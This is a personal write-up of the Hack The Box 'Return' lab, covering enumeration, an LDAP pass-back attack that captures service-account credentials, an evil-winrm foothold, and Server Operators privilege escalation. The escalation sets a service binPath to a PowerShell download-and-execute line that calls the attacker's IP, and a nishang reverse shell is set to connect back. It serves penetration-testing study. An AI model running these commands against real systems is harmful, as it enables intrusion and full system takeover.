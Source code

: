 # Enumeration
## nmap
doing a thorough nmap scan `nmap -p- -sV -A -v 10.10.11.108` showed the following, where netbios is most likely an smb service. --> looking at the scan smb2 is up
![[Screenshot 2022-04-21 at 12.44.10.png]]
Looks like its kerberos and active directory..
[I wanted to try an active box on this but had no idea how to approach it maybe this will help]

A UDP scan `sudo nmap -sU 10.10.11.108 --min-rate 5000` showed ntp and ldap too.

## searchsploit
Looking up _smb2 3.1.1_ theres an immediate remote execution exlpoit which shows
`searchsploit smb 3.1.1 `:
![[Screenshot 2022-04-21 at 12.53.00.png]]


# Foothold
## http
_HTB printer admin panel_ is the homepage you get to when visitting the page.
`<path fill-rule="evenodd" clip-rule="evenodd" d="M0 2V0H18V2H0ZM0 7H18V5H0V7ZM0 12H18V10H0V12Z" fill="white"/>` this part of the code looked odd to me. Is it a hash of sorts?(not base 64).

On the settings page it looks like some code is being executed directly into the HTTP POST form `printer.return.local`. Looking this up I came accross [this article](https://medium.com/r3d-buck3t/pwning-printers-with-ldap-pass-back-attack-a0d8fa495210) which seems to explain how LDAP can be used to capture credentials.
*HOWEVER*, it appears they are using this machine as an example, which is not what I wanted..

There is a saved username and password - _svc-printer:*******_ - which should give us a username?

Trying to replace the `printer.return.local` with my own ip and setting up the listener worked! we got some credentials _svc-printer:1edFg43012!!_. Can we use this for smbclient?
![[Screenshot 2022-04-21 at 13.13.03.png]]

### defult credentials
I cam accross an article (under new things learnt) that said commonly used admin credentials were __
## smb
### smbclient
Trying `smbclient -L return` and `smbclient -L svc-printer` did not work. Neither did `smbclient \\\\return\\svc-printer 1edFg43012!!`, as the terminal only took the _!!_ to mean the previous command. Annoying.. --> this can be escaped with the `\`.
`smbclient \\\\return\\svc-printer 1edFg43012\!\!` did not connect however..
### smbmap
after looking around for a bit, I found smbmap, which would potentially help with further smb enumeration.
`smbmap -u svc-printer -p 1edFg43012\!\! -H 10.10.11.108` gave the results:
![[Screenshot 2022-04-21 at 13.31.00.png]]

## further enum - LDAP
For further LDAP enumeration (as the smb connections did not work) I proceeded to try some of the enumerations from [this](https://book.hacktricks.xyz/pentesting/pentesting-ldap) article.
`nmap -n -sV --script "ldap* and not brute" 10.10.11.108` yielded the following helpful results:
_rootDomainNamingContext: DC=return,DC=local_, _ldapServiceName: return.local:printer$@RETURN.LOCAL_, _serverName: CN=PRINTER_. 

--> **With the domain being _return.local_ I edited _/etc/hosts_ to return.local!**

Further, I also downloaded _pip3_ and _ldapdomaindump_:
`ldapdomaindump 10.10.11.108 -u printer.return.local\\svc-printer -p 1edFg43012\!\! --no-json --no-grep` returned a bunch of files. 

_domain_users.html_ had the users of the domain. 
![[Screenshot 2022-04-21 at 15.24.07.png]]

## smbget
Connecting to smbclient using `smbclient \\\\return.local\\svc-printer 1edFg43012\!\!` showed _anonymous login successful_ but said _tree connect failed: NT_STATUS_BAD_NETWORK_NAME_. I therefore tried smbget to maybe get the files?

## SMBCLIENT 2
Trying with the found domains (IPC$, SYSVOL, etc):
![[Screenshot 2022-04-21 at 15.41.08.png]]
As can be seen, IPC$ did not have any results. However C$ did:
![[Screenshot 2022-04-21 at 15.44.44.png]]

I directed to _\\return.local\C$\Users\svc-printer\Desktop\__ and used `mgetuser.txt`. Then read th contents and got the user flag.

# Exploit
Now I had no idea how to go on about this, so I cheated and had some help from a writeup..

Enter, `crackmapexec`. This can be used to check if we had smb access with the current user and pasword (which we already knew we had), butalso to see if we have remote acces:
`crackmapexec winrm 10.10.11.108 -u svc-printer -p 1edFg43012\!\!` and it looks like we do.
Apparently, this means we essentially have pwned the system.. --> and the "go-to" exploit for this (from several of the writeups) was _Evil-WinRM_.

I downloaded the one from github, but apparently there's another downloadable one.
Used `sudo gem install evil-winrm` before `evil-winrm -i 10.10.11.108 -u svc-printer -p 1edFg43012\!\!` and got a shell. 
`
# Privesc
From here, I assumed gathering as much info and details as possible about the system beofre finding a vulnerability. My only issue is I am not used to doing Windows machines and was not sure what to look for or how.
However, I tried getting the winpeas and maybe executing this?
## enumeration
`net user svc-printer` - shows that the user is part of the _Server Operators_ group. Looking in the files we found previously it says that members of this group can 'administer domain servers' - which we should be able to use to exscalate our privileges through changing the credentials of another user with better privileges (i.e.). There's more info about the AD group [here](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-serveroperators).

To 'download' the winpeas script I used `Invoke-WebRequest -Uri "http://10.10.14.14:8000/winPEASx64.exe" -OutFile "C:\Users\svc-printer\Downloads\winenum.exe"` and then executed it `./winenum.exe`.

Findings:
AppCmd.exe - which can only be ran by administrators
`C:\Users\svc-printer : svc-printer [AllAccess]`

### Other useful enum commands
`whoami`
`whoami /groups`
`net users`
`net groups`


## research
Looking into the _Server Operators_ and what being part of this group mens for Windows active directory I found [this article](https://www.secframe.com/blog/2019/account-operators-attacked/) which showed a couple ways it could be used to exploit the 'privileges'.

Following [this article](https://cube0x0.github.io/Pocing-Beyond-DA/):
1. I 'downloaded' the [nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1#L101) shell and saved it in tools.
	1. Added `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.14 -Port 4444` to the end of the file
2. Set up a nc listener
3. And a python web server in the tools directory
4. Then executed the line of commands `sc.exe config vss binPath="C:\Windows\System32\cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.14:8000/nishang_shell.ps1')"` before stopping the service with `sc.exe stop VSS` which returned an error. But proceeded to restart the service anyways `sc.exe start VSS` which caused the shell to return an ERROR and hang, but going to the nc listener we now had a shell as _NT authority/system_, aka administrative privileges.

_From here I just went to C:\USers\Administratorand got the root flag _



![[Screenshot 2022-04-23 at 15.58.04.png]]

### sc.exe explained
[It](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/sc-create) is basically just creating subkeys and entries for existing services, which can be used with path poisoning. By changing the path to a malicious service, a reverse shell or similar can be achieved.

# Flags
18a89177491bce507833c7796346d22d
d2451b245b364373c08edf065a6296fc
# Thoughts
- replace `printer.return.local` with own ip address and set up nc listener --> **YES**
- winPeas?
- Path poisoning **YES**

I am not very familiar with Windows and especially not AD, but I havebeen maening to get better at it, so I will try to do some more. The PS commands confuse me as they seem more complex than those of Linux. Overall a quite interesting box though.

# New Things Learnt
- LDAP pass-back attack (https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack)
- crackmapexec 
- ldapdomaindump
- evil-winrm
- bloodhound ?


_[writeup used](https://readysetexploit.wordpress.com/2021/10/12/hack-the-box-return/)_